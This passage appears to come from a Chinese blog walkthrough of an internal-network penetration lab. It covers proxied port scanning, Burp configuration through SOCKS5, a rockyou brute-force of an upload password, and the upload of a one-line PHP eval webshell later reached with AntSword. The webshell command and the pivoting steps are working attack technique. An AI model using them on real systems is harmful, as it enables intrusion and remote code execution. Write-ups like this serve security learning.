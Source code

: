    proxychains nmap -p80,22,443 172.17.0.3-254
    

注意这里有个坑，就是走proxychains时最好用普通用户，我用root用户好像没扫出有效结果，不知道为啥。

> 之后找到答案，写在这里

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204215935-1229885288.png)  
**成功发现一台主机172.17.0.4开放了80端口**

##### 3.3.3.3 配置火狐代理访问内网

发现内网有一台主机开放了80端口，所以可以访问一下，但是浏览器也必须走socks5代理才可以，如下配置  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204216266-426931855.png)  
如下已经成功访问到，可以看出是一个文件上传的页面，看到文件上传就嘿嘿嘿了，不过貌似上传要密码  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204216507-1700519905.png)  
或者还可以使用如下命令启动firefox，也可以访问到内网web应用

    proxychains firefox 172.17.0.4
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204216744-1750797350.png)

##### 3.3.3.4 文件上传利用

可以看到这个页面上传文件需要密码，那就只能爆破了，要想爆破就得抓包，所以必须得先让浏览器的包先到burp，然后burp挂着代理去和内网通信  
**浏览器=\>Burp代理\=>socks代理===>内网**  
所以需要做的就是浏览器设置代理到burp，然设置burp的socks代理，如下：

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204216986-2123394039.png)  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204217218-1449862628.png)  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204217449-1078344841.png)  
到此就搭建好了，然后开始上传文件，爆破密码

1.  这里打算上传webshell，先随便输入密码如下：

    echo '<?php @eval($_POST['ant']);?>' > shell.php
    

![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204217730-1803663610.png)  
2\. burp拦截并发送到intruder进行密码破解：  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204217969-1789262313.png)  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204218290-960347232.png)  
这里字典选择了rockyou，kali自带的很大的字典  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204218591-1505454549.png)  
然后就可以暴力破解了  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204219164-1927346675.png)  
没一会儿就找到了到密码，是password，上传之后shell.php的地址是./photo/22/shell.php  
3\. 上传成功，使用蚁剑链接，蚁剑也需要配置socks5代理  
设置代理  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204219404-1409753732.png)  
链接shell，这里没有自定义UA，可以在请求信息或者js文件中进行修改  
![Img](https://img2022.cnblogs.com/blog/2361096/202203/2361096-20220316204219679-1767218241.png)
